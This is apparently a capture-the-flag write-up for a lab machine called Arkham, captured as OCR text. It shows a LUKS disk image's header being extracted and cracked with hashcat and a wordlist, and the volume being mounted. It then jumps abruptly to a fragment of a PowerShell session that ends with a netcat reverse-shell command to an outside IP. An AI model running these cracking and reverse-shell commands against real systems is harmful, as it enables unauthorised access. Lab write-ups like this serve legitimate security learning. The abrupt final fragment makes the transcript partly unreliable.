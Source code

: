 > The Linux Unified Key Setup (LUKS) is a disk encryption specification created by Clemens Fruhwirth in 2004 and originally intended for Linux.

### Cracking and looking inside LUKS container

I can extract the beginning of the partition containing the header so I can crack it with hashcat after:

```
# dd if=backup.img of=backup_header.dd bs=512 count=5000
5000+0 records in
5000+0 records out
2560000 bytes (2.6 MB, 2.4 MiB) copied, 0.0232298 s, 110 MB/s
```

Now I can crack it with hashcat:

```
C:\bin\hashcat>hashcat64 -m 14600 -a 0 -w 3 backup_header.dd passwords\rockyou.txt
hashcat (v5.1.0) starting...

[...]

backup_header.dd:batmanforever
```

The password is `batmanforever`

To mount the image I first open the image file and assign it to the device mapper, then mount it under `/mnt`:

```
# cryptsetup luksOpen backup.img backup
Enter passphrase for backup.img: [batmanforever]
# mount /dev/mapper/backup /mnt

root@ragingunicorn:/mnt/Mask# ls -lR
.:
total 880
drwxr-xr-x 2 root root   1024 Dec 25 00:22 docs
-rw-rw-r-- 1 root root  96978 Dec 25 00:18 joker.png
-rw-rw-r-- 1 root root 105374 Dec 25 00:20 me.jpg
-rw-rw-r-- 1 root root 687160 Dec 25 00:20 mycar.jpg
-rw-rw-r-- 1 root root   7586 Dec 25 00:19 robin.jpeg
drwxr-xr-x 2 root root   1024 Dec 25 00:24 tomcat-stuff

./docs:
total 196
-rw-r--r-- 1 root root 199998 Jun 15  2017 Batman-Begins.pdf

./tomcat-stuff:
total 191
-rw-r--r-- 1 root root   1368 Dec 25 00:23 context.xml
-rw-r--r-- 1 root root    832 Dec 25 00:24 faces-config.xml
-rw-r--r-- 1 root root   1172 Dec 25 00:23 jaspic-providers.xml
-rw-r--r-- 1 root root     39 Dec 25 00:24 MANIFEST.MF
-rw-r--r-- 1 root root   7678 Dec 25 00:23 server.xml
-rw-r--r-- 1 root root   2208 Dec 25 00:23 tomcat-users.xml
-rw-r--r-- 1 root root 174021 Dec 25 00:23 web.xml
-rw-r--r-- 1 root root   3498 Dec 25 00:24 web.xml.bak
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666